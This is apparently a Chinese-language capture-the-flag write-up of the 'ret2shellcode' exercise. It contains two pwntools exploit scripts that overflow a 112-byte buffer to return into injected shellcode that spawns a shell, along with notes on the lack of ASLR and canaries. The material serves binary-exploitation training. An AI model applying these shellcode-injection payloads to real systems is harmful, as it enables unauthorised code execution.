


# ret2shellcode

检查程序的保护



反汇编



没有随机基质，没有栈保护，随意发挥即可

```python
from pwn import *
import time

sh = process('./ret2shellcode')

#gdb.attach(sh)
#sleep(15)

shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080
sh.sendline(shellcode.ljust(112, b'A') + p32(buf2_addr))
sh.interactive()

```

总结：

一开始我一直没明白什么时候把shellcode拷进0x804a080中的，再观察反汇编才发现gets下面有一个拷贝函数

在构造exp的时候，不能只盯着溢出点，还要观察上下文


思考：假设没有strncpy，如何构造exp？

答：若没有拷贝函数，则溢出点应该是栈中，我们则需要知道栈的地址，利用jmp esp pop esp等来构造rop，exp如下

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())

#gdb.attach(sh)
#sleep(15)

add = 0xffffd500

payload = flat([b'a'*112,add,shellcode])
sh.sendline(payload)

sh.interactive()
```


总结：由于没有jmp esp ，pop esp等指令，观察汇编上下文也没有合适的指令操作，只能是关闭ASLR(栈随机)来完成这一利用。